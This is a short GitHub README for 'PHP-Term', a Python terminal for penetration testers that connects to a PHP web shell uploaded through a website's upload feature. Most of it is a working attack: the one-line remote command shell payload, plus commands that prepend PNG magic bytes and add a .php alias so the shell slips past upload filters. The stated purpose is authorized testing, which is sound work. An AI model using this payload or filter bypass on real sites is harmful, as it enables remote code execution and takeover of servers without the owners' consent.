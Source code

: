 # PHP-Term
![phpterm](https://github.com/user-attachments/assets/3930a006-4bf9-4257-bd3c-8fef646412b2)

A terminal for penetration testers, to connect to an uploaded php payload. (Made with Python).
The payload itself is one simple PHP code line to give the tester a remote shell through unsanitized uplaod features of a website.
It looks like this:
```
<?php system(\$_GET['cmd']); ?>"
```

To further test for sanitized uploads you can use this to create fake PNG files.
E. x.:
Create an empty PNG formatted file:
```
printf "\x89PNG\r\n\x1a\n" > payload.png
```

Append PHP-Paylaod:
```
echo "<?php system(\$_GET['cmd']); ?>" >> payload.png
```

Give it a PHP alias:
```
mv payload.png payload.png.php
```

This will also work with different file formats and might help you to sanitize the uploads properly.
